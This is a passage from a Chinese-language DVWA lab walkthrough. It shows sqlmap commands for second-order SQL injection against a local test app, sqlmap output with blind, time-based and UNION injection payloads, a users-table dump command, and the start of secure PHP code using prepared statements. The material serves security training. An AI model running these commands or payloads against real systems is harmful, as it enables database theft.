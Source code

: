 ```shell
python sqlmap.py -r high.txt --second-url "http://localhost/vulnerabilities/sqli/" --batch --flush-session
```

`--second-url` 是二级注入的另一个页面，然后自动操作，并且清空之前的缓存。 `sqlmap` 自动注入后，发现 `post` 请求的参数 `id` 有如下三种注入漏洞（。接下来，和上面一样，使用 `--dbs` 、 `-D dwva --tables` 、 `-D dwva -T users --dump` 等标志拿到所有需要的数据。

```
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 1155=(SELECT (CASE WHEN (1155=1155) THEN 1155 ELSE (SELECT 1708 UNION SELECT 9973) END))-- IfmX&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 5983 FROM (SELECT(SLEEP(5)))bCUn) AND 'CuOS'='CuOS&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x7176787a71,0x4a624164734e68675857796d6d6b4f6f636e587a6650704c6a476f756e6b69594f4b5254744f5161,0x716a766b71),NULL-- -&Submit=Submit
---
```

分析上面的请求头，我们其实只需要一些数据即可，因此，可以将这些参数写到命令中，那么就不需要得到 `high.txt` 文件了，使用下面的命令即可。 `--level` 表示测试等级，最大为 `5` 。

```shell
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/session-input.php#" --data="id=1&Submit=Submit" --second-url="http://localhost/vulnerabilities/sqli/" --cookie="PHPSESSID=d9ou799sikqs084p6iqj7ffmf3; security=high" --level=2 --batch -D dvwa -T users --dump --flush-session
```

最后结果和上面两个等级相同，不再赘述。

### Impossible 等级

#### 分析 php 源码

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];  // 拿到数据

    // Was a number entered?
    if(is_numeric( $id )) {  // 判断是否为数字
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned // 保证输出只有一条
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];
```
